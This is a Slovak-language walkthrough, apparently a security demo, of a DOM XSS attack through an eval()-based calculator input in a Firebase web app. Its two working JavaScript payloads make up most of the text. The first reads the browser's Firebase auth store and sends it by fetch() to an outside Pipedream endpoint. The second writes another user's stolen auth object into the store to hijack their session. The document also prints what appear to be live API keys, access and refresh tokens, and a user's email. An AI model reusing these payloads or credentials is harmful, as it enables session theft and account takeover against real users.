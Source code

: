 # Document object model cross site scripting (DOM XSS)

- V tomto útoku využijeme zraniteľnú funkciu eval(), ktorá vyhodnotí akúkoľvek hodnotu, ktoré je vložená ako argument. Vie vypočítavať rôzne rovnice, preto je ideálnym riešením pre primitívnu kalkulačku.
- Každopádne tým, že vyhodnotí akúkoľvek hodnotu tak vyhodnotí aj akýkoľvek škodlivý kód, ktorý ako argument vložíme.
- Input s textom "Enter equation..." vyhodnocuje práve funkcia eval a predpokladáme, že na tomto mieste vzniká zraniteľnosť.
- Pokúsime sa o ukradnutie uživateľových dát z databázy prehliadaču. Do inputu vložíme nasledujúci kód.
    
          const request = window.indexedDB.open("firebaseLocalStorageDb");
            request.onsuccess = (event) => {
              const db = event.target.result;

              const transaction = db.transaction(["firebaseLocalStorage"], "readonly");
              const objectStore = transaction.objectStore("firebaseLocalStorage");

              const getDataRequest = objectStore.getAll();

              getDataRequest.onsuccess = (event) => {

              const headers = new Headers();
              headers.append("Content-Type", "text/plain");

              const options = {
                method: "POST",
                headers,
                mode: "cors",
                body: JSON.stringify(event.target.result),
              };

              fetch("https://eojph9o2kgja7k2.m.pipedream.net", options);
              }
            };
- Tento kód sprístupní lokálnu databázu indexDB prehliadača a umožní nám vytiahnúť hodnoty z databázy. Náš momentálne zaujíma tabuľka "firebaseLocalStorage", ktorú nastavuje
  externá API Firebase, ktorú používa aplikácia na autentifikáciu. Po jej vytiahnutí sa celý objekt odošle na náš vytvorený endpoint na Pipedreame (inštalácia link).
- Teraz sa môžeme odhlásiť a prihlásiť sa do lubovľného účtu, ktorý už máme vytvorený alebo si vytvoríme nový.
- Prejdeme znova na obrazovku s kalkulačkou a vložíme nasledujúci kód do rovnakého inputu.
        const request = window.indexedDB.open("firebaseLocalStorageDb");
        request.onsuccess = (event) => {
          const db = event.target.result;
  
          const transaction = db.transaction(["firebaseLocalStorage"], "readwrite");
          const objectStore = transaction.objectStore("firebaseLocalStorage");
  
          const data = {
            fbase_key:
              "firebase:authUser:AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg:[DEFAULT]",
            value: {
              uid: "RTejhfCWw0OAlHcoAj41Fy93ZJJ3",
              email: "mate@gmail.com",
              emailVerified: false,
              isAnonymous: false,
              providerData: [
                {
                  providerId: "password",
                  uid: "mate@gmail.com",
                  displayName: null,
                  email: "mate@gmail.com",
                  phoneNumber: null,
                  photoURL: null,
                },
              ],
              stsTokenManager: {
                refreshToken:
                  "AMf-vByIsfsiw-8vT6jzvFkIqMjZhSvTzJ16dCdww3w_Pk_9kwwfanAaW09W-DWc70KzKjxtp7Dq7aEPRImKkgLIHiCN4ROLsi5NBpvQrRSNGonNI-5wt_
                    9PHITM0bt5ZXSayEMzx7dRUHJdj8-lbwiflyUREJh3TUy-QLmoxyg3rY-G6B1Ff1OQPTv-VRFJGmp3GQ2dJ5Bl0hyBKiELNwcjKDTrVyRjPw",
                accessToken:
                  "eyJhbGciOiJSUzI1NiIsImtpZCI6ImJhNjI1OTZmNTJmNTJlZDQ0MDQ5Mzk2YmU3ZGYzNGQyYzY0ZjQ1M2UiLCJ0eXAiOiJKV1QifQ
      .eyJpc3MiOiJodHRwczovL3NlY3VyZXRva2VuLmdvb2dsZS5jb20vZGlwbG9tb3ZrYS10ZXN0LWFwcCIsImF1ZCI6ImRpcGxvbW92a2EtdGVzdC1hcHA
      iLCJhdXRoX3RpbWUiOjE3MTE3OTA0OTYsInVzZXJfaWQiOiJSVGVqaGZDV3cwT0FsSGNvQWo0MUZ5OTNaSkozIiwic3ViIjoiUlRlamhmQ1d3ME9BbE
      hjb0FqNDFGeTkzWkpKMyIsImlhdCI6MTcxMTc5MDQ5NiwiZXhwIjoxNzExNzk0MDk2LCJlbWFpbCI6Im1hdGVAZ21haWwuY29tIiwiZW1haWxfdmVyaWZ
      pZWQiOmZhbHNlLCJmaXJlYmFzZSI6eyJpZGVudGl0aWVzIjp7ImVtYWlsIjpbIm1hdGVAZ21haWwuY29tIl19LCJzaWduX2luX3Byb3ZpZGVyIjoicGFzc
      3dvcmQifX0.0Mp-T84dmzTpiAdVyhl68WV2qDvTZ78IHGYca5YpBgBx4A_m_YXoJ-IYBaTl-Yp-fXYzuKN3Vff0iqkNA5nVtUcOFfG1X157DrkE80gxp6e
      7ELg2jn_N6mF1Xw-jTSaJoAAsG8f3e_wHp-cfVqWyBNrcUTABrP8Hy_bv-iyUII60PZtjiu_oo7ObVFhoPEim82rlPJDLiwpPMos7qGEBsvw4-fKQvLPkR
      wkGbCf8bKt6Pn_jThtR9JPuhU_G2SlgppA0PuuLSyO8KViFoH4XgFMi9kyX3YU8vmg7O5bDwCYemLLpvQt4KY900_qQgxS2GnX89h_V-hNu_bGqQpL9Zg",
                expirationTime: 1711794096425,
              },
              createdAt: "1711388904315",
              lastLoginAt: "1711790496471",
              apiKey: "AIzaSyCx_Vvo5GYYtbjFgSm0GtQv7TWb6mrAZWg",
              appName: "[DEFAULT]",
            },
          };
  
          objectStore.clear()
  
          const addDataRequest = objectStore.add(data);
  
          addDataRequest.onsuccess = (event) => alert("Success!");
        };
- Tento kód uloží, respektíve prepíše dáta o prihlásenom používateľovi. Objekt "dáta" nahradíme novým objektom, ktorý nám došiel na Pipedream. Zo skopírovaného objektu musíme zo všetkých atribútov odstrániť úvodzovky a nechať len pri hodnotách.
- Po kliknuti klávesy "Enter" sme si do prehliadača uložili prihlasovacie údaje iného používateľa a teraz sme prihlásený pod jeho prihalsovacimi údajmi.